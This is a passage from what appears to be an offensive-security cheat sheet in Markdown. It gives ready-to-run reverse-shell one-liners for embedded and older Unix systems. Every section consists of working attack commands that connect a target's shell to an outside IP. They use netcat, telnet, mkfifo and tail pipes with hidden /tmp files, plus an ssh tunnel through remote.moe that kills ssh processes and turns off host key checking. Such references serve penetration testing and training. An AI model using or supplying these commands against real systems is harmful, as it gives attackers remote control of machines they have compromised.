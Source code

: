 <a id="reverse-shell-no-bash"></a>
**5.i.f. Reverse shell without /dev/tcp**

Embedded systems do not always have Bash and the */dev/tcp/* trick will not work. There are many other ways (Python, PHP, Perl, ..). Our favorite is to upload netcat and use netcat or telnet:

On the remote system:

```sh
nc -e /bin/sh -vn 3.13.3.7 1524
```

Variant if *'-e'* is not supported:
```sh
{ nc -vn 3.13.3.7 1524 </dev/fd/3 3>&- | sh 2>&3 >&3 3>&- ; } 3>&1 | :
```

* On modern shells this can be shortened to `{ nc 3.13.3.7 1524 </dev/fd/2|sh;} 2>&1|:`. (*thanks IA_PD*).  
* The `| :` trick wont work on C-Shell/tcsh (FreeBSD), orignal Bourne shell (Solaris) or Korn shell (AIX). Use `mkfifo` instead.

Variant for older */bin/sh*:
```sh
mkfifo /tmp/.io; sh -i 2>&1 </tmp/.io | nc -vn 3.13.3.7 1524 >/tmp/.io
```

Telnet variant:
```sh
mkfifo /tmp/.io; sh -i 2>&1 </tmp/.io | telnet 3.13.3.7 1524 >/tmp/.io
```

Telnet variant when mkfifo is not supported (Ulg!):
```sh
touch /tmp/.fio; tail -f /tmp/.fio | sh -i | telnet 3.13.3.7 31337 >/tmp/.fio
```
Note: Dont forget to `rm /tmp/.fio` after login.

<a id="revese-shell-remote-moe"></a>
**5.i.g. Reverse shell with remote.moe and ssh (encrypted)**

It is possible to tunnel raw TCP (e.g bash reverse shell) through [remote.moe](https://remote.moe):

On your workstation:
```sh
# First Terminal - Create a remote.moe tunnel to your workstation
ssh-keygen -q -t rsa -N "" -f .r  # New key creates a new remote.moe-address
ssh -i .r -R31337:0:8080 -o StrictHostKeyChecking=no nokey@remote.moe; rm -f .r
# Note down the 'remote.moe' address which will look something like
# uydsgl6i62nrr2zx3bgkdizlz2jq2muplpuinfkcat6ksfiffpoa.remote.moe

# Second Terminal - start listening for the reverse shell
nc -vnlp 8080
```

On the target(needs SSH and Bash):
```sh
bash -c '(killall ssh; rm -f /tmp/.r; ssh-keygen -q -t rsa -N "" -f /tmp/.r; ssh -i /tmp/.r -o StrictHostKeyChecking=no -L31338:uydsgl6i62nrr2zx3bgkdizlz2jq2muplpuinfkcat6ksfiffpoa.remote.moe:31337 -Nf remote.moe;  bash -i &>/dev/tcp/0/31338 0>&1 &)'
```
